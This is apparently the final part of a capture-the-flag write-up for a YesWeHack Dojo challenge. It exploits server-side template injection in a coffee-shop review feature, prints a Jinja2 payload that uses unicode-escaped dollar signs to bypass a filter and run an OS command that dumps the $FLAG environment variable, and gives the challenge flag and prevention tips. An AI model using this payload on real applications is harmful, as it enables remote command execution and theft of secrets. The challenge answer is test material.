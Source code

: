 Using the following payload :
```python
\N{DOLLAR SIGN}{cycler.__init__.__globals__.os.popen([].__class__.__base__.__subclasses__()[-2].reviews.__str__()[-15:-5]).read()}echo \N{DOLLAR SIGN}FLAG
```
We can dump the content of the env variable `$FLAG` :
![](dojo31/img/ywh-10.png)
`FLAG : FLAG{C0ff33_C0ff33_M0r3_C0ff33!!}`

## How to prevent

Well, the easiest fix for our coffee shop is to better sanitize users reviews.
For example, adding `\N` to the regex of the `addReview` method would prevent the current payload from working. Also blacklisting the character `{` could prevent any payload in this context. Another thing to do is apply the detection regex **after** the unicode decoding of the string. So the `$` already decoded would have been flagged as malicious and prevented the RCE.

There are other way to protect an application from SSTI but the best way is to **never trust user input** and add as many filters as needed.

## Conclusion

Thanks for this challenge **Brumens** , I really enjoyed the new UI and the complexity of the payload. Thanks for the Dojo and everything ❤️ !

#### #YesWeRHackers

## Sources 

https://portswigger.net/web-security/server-side-template-injection
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
https://docs.python.org/3/howto/unicode.html#the-string-type
https://infosecwriteups.com/ssti-bypassing-single-quotes-filter-dc0ee4e4f011
https://secure-cookie.io/attacks/ssti/